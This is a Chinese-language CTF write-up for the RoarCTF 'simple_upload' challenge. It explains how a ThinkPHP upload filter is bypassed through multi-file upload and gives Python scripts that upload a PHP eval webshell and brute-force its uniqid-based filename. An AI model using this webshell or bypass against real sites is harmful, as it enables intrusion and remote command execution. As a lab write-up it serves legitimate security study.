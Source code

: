 RoarCTF-simple_upload
==========

* tip：该题目在BUUCTF的题库里有环境复现：https://buuoj.cn

题目描述
-----

打开题目链接之后，看到如下代码<br>
```php
 <?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller
{
    public function index()
    {
        show_source(__FILE__);
    }
    public function upload()
    {
        $uploadFile = $_FILES['file'] ;
        
        if (strstr(strtolower($uploadFile['name']), ".php") ) {
            return false;
        }
        
        $upload = new \Think\Upload();// 实例化上传类
        $upload->maxSize  = 4096 ;// 设置附件上传大小
        $upload->allowExts  = array('jpg', 'gif', 'png', 'jpeg');// 设置附件上传类型
        $upload->rootPath = './Public/Uploads/';// 设置附件上传目录
        $upload->savePath = '';// 设置附件上传子目录
        $info = $upload->upload() ;
        if(!$info) {// 上传错误提示错误信息
          $this->error($upload->getError());
          return;
        }else{// 上传成功 获取上传文件信息
          $url = __ROOT__.substr($upload->rootPath,1).$info['file']['savepath'].$info['file']['savename'] ;
          echo json_encode(array("url"=>$url,"success"=>1));
        }
    }
} 
```
可以发现，该站是`ThinkPHP`写的一个文件上传网站。<br>

题目分析
-------

* 1、分析代码可知，该站可以通过`POST`方法实现上传文件功能，但是从第14行代码发现php后缀的文件被禁止上传，因此我们需要想办法绕过限制，上传`php小马`。<br><br>
* 2、该脚本通过`allowExts`方法设置上传类型，但是查阅资料得知这种使用方法是不对的，并不能限制上传的文件类型。<br><br>
* 3、upload()函数不传参时为多文件上传，整个`$_FILES`数组的文件都会上传保存，可以利用该属性通过一次访问上传多个文件。<br><br>
结合以上分析得知的内容可知，可以利用`$_FILES`数组上传多个文件来绕过对php的过滤。<br><br>

解题过程
-------

### 1、测试上传功能

首先编写python脚本向网站POST一个非php的文件，这里上传了一个`txt`文件，测试能否正常上传文件，下面是上传测试代码段：<br>
```python
url = "http://c85e5a48-c5f8-4a5b-9a30-6a81677fd75e.node3.buuoj.cn"
path = url + "/index.php/home/index/upload"
files = {"file":("ma.txt",'hello')}
r = requests.post(path, files=files)
print(r.text)
```
回显内容如下:<br>
```
{"url":"\/Public\/Uploads\/2019-10-24\/5db1841fb439d.txt","success":1}
```
能够成功上传文件。<br>
### 2、测试上传php文件：

```python
url = "http://c85e5a48-c5f8-4a5b-9a30-6a81677fd75e.node3.buuoj.cn"
path = url + "/index.php/home/index/upload"
files = {"file":("ma.txt",'hello'), "file1":("ma.php", '<?php eval($_GET["cmd"]);')}
r = requests.post(path, files=files)
```
回显内容如下：<br>
```
{"url":"\/Public\/Uploads\/2019-10-24\/5db18420027a3.txt","success":1}
{"url":"\/Public\/Uploads\/","success":1}
```
由回显可知，我们成功上传了php文件,但是并没有回显php的文件名<br>
* 其实在比赛做赛题的时候发现，直接上传php文件也是可以成功的，只不过也不会回显文件名。<br><br>
通过多次上传发现规律：新文件名是以`微秒`为单位转`十六进制`的字符串（后来在WP中了解到ThinkPHP中，文件名是通过`uniqid`函数生成的，`uniqid`函数是基于以微秒计的当前时间计算的）<br><br>
因此找到php的文件名，理论上就可以成功连接到我们上传的小马，而方法只有一个，那就是`爆破`。<br>

### 3、爆破php文件名

爆破代码如下：<br>
```python
import requests

url = "http://c85e5a48-c5f8-4a5b-9a30-6a81677fd75e.node3.buuoj.cn"
path = url + "/index.php/home/index/upload"
files = {"file":("ma.txt",'hello'), "file1":("ma.php", '<?php eval($_GET["cmd"]);')}
r = requests.post(path, files=files)
t1 = r.text.split("/")[-1].split(".")[0]
print (t1)

s = "1234567890abcdef"
for i in s:
    for j in s:
        for k in s:
            path = url + "/Public/Uploads/2019-10-24/" + t1[:-3] + "%s%s%s.php" % (i, j, k)
            r = requests.get(path, timeout=1)
            print(path)
            if r.status_code != 404:
                print(path)
                # print(r.text)
                break
```
由于我们是利用`$_FILES`数组的属性实现一次访问，上传两个文件，因此中间相隔的时间较短，利用以上单线程的爆破即可拿到php的文件名，然后常规操作连接小马拿flag。<br><br>
这里还有另一种方法是利用BP进行爆破，只需爆破文件名的后三个字符即可，其实原理是一样的，只是工具不同而已。<br><br>
  ![](https://raw.githubusercontent.com/f61d/challenges/master/web/FileUpload/RoarCTF-simple_upload/images/BP.PNG)
 <br>
但是在BUUCTF的站上使用BP爆破时会回显`429 Too Many Requests (太多请求)`,同样如果用自己的多线程代码去爆破也会遇到这个问题，是网站为了限制客户端的请求数量的配置，没办法，只能用单线程。<br>

思考总结
-------

在比赛的时候，由于不了解代码中一次访问可以上传多个文件的漏洞，便采用了上传三次文件的方法（第一次上传txt，第二次传php小马，第三次再传txt，以此得到命名范围），这就导致第一次和第三次拿到的文件名范围比较广，爆破困难，当时自己写了个蹩脚的多线程，最终也没能成功爆破出文件名...<br>
赛后看了几个WP关键步骤还是在于爆破文件名，我采用的这种方法也有人成功拿到了flag...不过正解应该还是利用漏洞一次上传多个文件来爆破吧。
